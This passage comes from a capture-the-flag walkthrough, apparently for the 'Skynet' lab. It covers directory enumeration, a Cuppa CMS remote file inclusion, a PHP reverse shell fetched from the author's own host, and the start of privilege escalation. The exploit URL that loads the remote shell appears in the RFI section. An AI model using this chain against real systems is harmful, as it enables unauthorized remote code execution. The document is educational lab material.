 ffuf reveals a new hidden directory

```
index.html              [Status: 200, Size: 418, Words: 45, Lines: 16]
administrator           [Status: 301, Size: 337, Words: 20, Lines: 10]
```
<p align="center">
  <img class="image" width="auto" height="auto" src="https://imgur.com/qJ4ftJP.png">
</p>

This is cuppa cms. Inspecting this source code reveals a forgot password form that is commented out. After de-commenting it it doesnt seem to work still.

Let's check for Exploits
```bash
Searchsloit revealed 1 exploit
searchsploit cuppa
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion | php/webapps/25971.txt
```
After googling for "cuppa cms exploit" I found this [https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/1306-exploits/cuppacms-rfi.txt](https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/1306-exploits/cuppacms-rfi.txt)

Using this I can call a file hosted on my machine and execute it. **RCE**

I host a reverse php shell on my machine. This is my go to php shell [https://github.com/jivoi/pentest/blob/master/shell/rshell.php](https://github.com/jivoi/pentest/blob/master/shell/rshell.php)

Server the reverse php with the following. Make sure you are in the same dir as the shell
```bash
sudo python3 -m http.server 80
####Notice the sudo on the command, this allows you to use the port 80
```
Browse the the exploitable page
```
http://10.10.36.101/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.14.4.164/r.php
```

<p align="center">
  <img class="image" width="auto" height="auto" src="https://i.imgur.com/e2vVwPp.png">
</p>

We now have a low priv www-data shell!

---
## Privesc
---
One thing to note here is that you cannot `cd` into milesdyson's home dir. However you can cat the flag like so.

```bash
cat /home/milesdyson/user.txt
```
After checking the `crontab` something stood out
```bash
www-data@skynet:/usr/share$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
```